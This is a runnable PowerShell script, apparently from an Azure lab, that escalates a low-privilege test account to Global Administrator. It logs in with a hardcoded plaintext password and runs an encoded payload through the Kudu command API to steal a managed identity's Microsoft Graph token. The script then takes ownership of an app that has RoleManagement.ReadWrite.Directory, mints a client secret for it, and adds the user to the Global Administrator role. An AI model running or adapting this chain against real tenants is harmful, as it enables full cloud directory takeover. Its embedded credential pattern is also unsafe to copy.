 This can be executed as a powershell script

#---------------------------------------------------


Disconnect-AzAccount
Disconnect-AzureAD
#-----------------ConnectToAzureUser-----------------------------#
$us4Username = "us4@xmazuretestgmail.onmicrosoft.com"
$us4Password = "Hahahaha147222343!"
$SecurePassword = ConvertTo-SecureString $us4Password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential -argumentlist $us4Username, $SecurePassword
Connect-AzureAD –Credential $Credential
Connect-AzAccount -Credential $Credential

#-------------------------------------------ReconnaissanceUS4----------------------------------------------#

#----------------Azure-ARM-------------------#
Get-AzRoleAssignment

$us4RoleAssignment = (Get-AzRoleAssignment).RoleDefinitionId

(Get-AzRoleDefinition -Id  $us4RoleAssignment).Actions

#----------------ADDirectoryRole-------------------#
$us4ADDirectoryRole = (Get-AzureADDirectoryRole | Where-Object{$_.DisplayName -eq "Global Reader"}).objectID

#Show that US4 have "Global Reader" permission
Get-AzureADDirectoryRoleMember -ObjectId $us4ADDirectoryRole

#-------------------------------------------AttackSCM-------------------------------------------------------#

#----------------ReconForID4-------------------#

$id4ADDirectoryRole = (Get-AzureADDirectoryRole | Where-Object{$_.DisplayName -eq "Application Administrator"}).objectID

#Found ID4 have "Application Administrator" permission
Get-AzureADDirectoryRoleMember -ObjectId $id4ADDirectoryRole

#Get ID4 Client ID

$id4ClientID = (Get-AzUserAssignedIdentity -Name id4 -ResourceGroupName sc4).ClientId

$id4ClientID

#----------------ExecuteCommandKuduGetID4Token-------------------#

$GeTokenPayload = '$headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER};$ClientId ="74eeca0b-fa67-4645-aed9-ab699e4729ef";$ProgressPreference = "SilentlyContinue";$response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://graph.microsoft.com&client_id=$ClientId&api-version=2019-08-01" -Headers $headers;$response.RawContent'
$Encoded64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($GeTokenPayload))
$us4Token = (Get-AzAccessToken).Token
$method = "POST"
$URI = "https://sc4-windows-function-app.scm.azurewebsites.net:443/api/command"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "sc4-windows-function-app.scm.azurewebsites.net")
$userAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
$headers.Add("Authorization", "Bearer $($us4Token)")
$contentType = "application/json"
$body = "{
`"command`":`"powershell -EncodedCommand $($Encoded64)`",
`"dir`":`"C:\\home`"
}
"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -Body $body)
$response.Content

#Token For ID4
$id4Token = (($response.Content).Split('"')[6]).split("\")

$id4Token
#-------------------------------------------AttackAppRegistrations-------------------------------------------------------#


#----------------ReconForscenario4App-------------------#

$appObjectID = (Get-AzureADApplication -SearchString scenario4App).ObjectID
$app = Get-AzureADApplication -ObjectId $appObjectID
$app.requiredResourceAccess | ConvertTo-Json -Depth 3

$scenario4Role = (((($app.requiredResourceAccess | ConvertTo-Json -Depth 3).split("Id:")[7]).split(",")[0]).trim()).split('"')[1]

#Show scenario4app have "RoleManagement.ReadWrite.Directory"

$scenario4SP = Get-AzureADServicePrincipal -All $true | Where-Object {$_.AppId -eq '00000003-0000-0000-c000-000000000000'}
$scenario4SP.AppRoles | Where-Object {$_.Id -eq $($scenario4Role)}

#Get All the requirement data for The RestAPI

$scenario4AppID = (Get-AzureADApplication -SearchString scenario4App).AppId
$scenario4ObjectID = (Get-AzureADApplication -SearchString scenario4App).objectid
$us4ObjectID = (Get-AzureADUser -SearchString us4).ObjectID

#----------------AddUS4OwnerOnscenario4App-------------------#

$method = "POST"
$URI = "https://graph.microsoft.com:443/v1.0//applications/$($scenario4ObjectID)/owners/`$ref"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "graph.microsoft.com")
$headers.Add("Accept", "text/html,application/xhtml+xml")
$headers.Add("Authorization", "Bearer $($id4Token)")
$contentType = "application/json"
$body = "{
`"@odata.id`":`"https://graph.microsoft.com/v1.0/directoryObjects/$($us4ObjectID)`"
}
"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -WebSession $webSession -Body $body)

if($response.StatusCode -eq 200 -or $response.StatusCode -eq 204){
Write-Host "[+] The user us4 is scenario4App application owner!!"
Start-Sleep -s 10
}

Start-Sleep -s 10
#POC
$scenario4ObjectID = (Get-AzureADApplication -SearchString scenario4App).objectID
Get-AzureADApplicationOwner -ObjectId $scenario4ObjectID

#-------------------------------------------GetTheGlobalAdministrator-------------------------------------------------------#

#Use the new permission of us4 as owner

Try
{
Start-Sleep -s 10
$AppPassword = New-AzureADApplicationPasswordCredential -ObjectID $scenario4ObjectID
}
Catch
{
exit
}

$TenantID = (Get-AzSubscription).TenantId
Disconnect-AzAccount
Start-Sleep -s 10
$scenario4Token = $null


#----------------ConnectToServicePrincpal-------------------#
$AzureApplicationID = $scenario4AppID
$AzureTenantID = $TenantID
$AzurePassword = ConvertTo-SecureString $AppPassword.value -AsPlainText -Force
$psCred = New-Object System.Management.Automation.PSCredential($AzureApplicationID, $AzurePassword)
Try
{
Start-Sleep -s 10
Connect-AzAccount -Credential $psCred -TenantID $AzureTenantID -ServicePrincipal
}
Catch
{
exit
}

$GlobalAdministratorObjectID = (Get-AzureADDirectoryRole | Where-Object {$_.DisplayName -eq "Global Administrator"}).ObjectId

#Get SP Token
$APSUser = Get-AzContext *>&1
$resource = "https://graph.microsoft.com"
$scenario4Token = [Microsoft.Azure.Commands.Common.Authentication.AzureSession]::Instance.AuthenticationFactory.Authenticate(`
$APSUser.Account, `
$APSUser.Environment, `
$APSUser.Tenant.Id.ToString(), `
$null, `
[Microsoft.Azure.Commands.Common.Authentication.ShowDialog]::Never, `
$null, `
$resource).AccessToken

#----------------AddUS4TOGlobalAdministrators-------------------#

$method = "POST"
$URI = "https://graph.microsoft.com:443/v1.0/directoryRoles/$($GlobalAdministratorObjectID)/members/`$ref"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "graph.microsoft.com")
$headers.Add("Accept", "text/html,application/xhtml+xml")
$headers.Add("Authorization", "Bearer $($scenario4Token)")
$contentType = "application/json"
$body = "{
`"@odata.id`":`"https://graph.microsoft.com/v1.0/directoryObjects/$($us4ObjectID)`"
}
"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -WebSession $webSession -Body $body)

if($response.StatusCode -eq 200 -or $response.StatusCode -eq 204){
Write-Host "[+] US4 Is Global Administrator Now"
Get-AzureADDirectoryRoleMember -ObjectID $GlobalAdministratorObjectID  | Where-Object {$_.DisplayName -eq "us4"}
}

Write-Host "[+]Done!!"
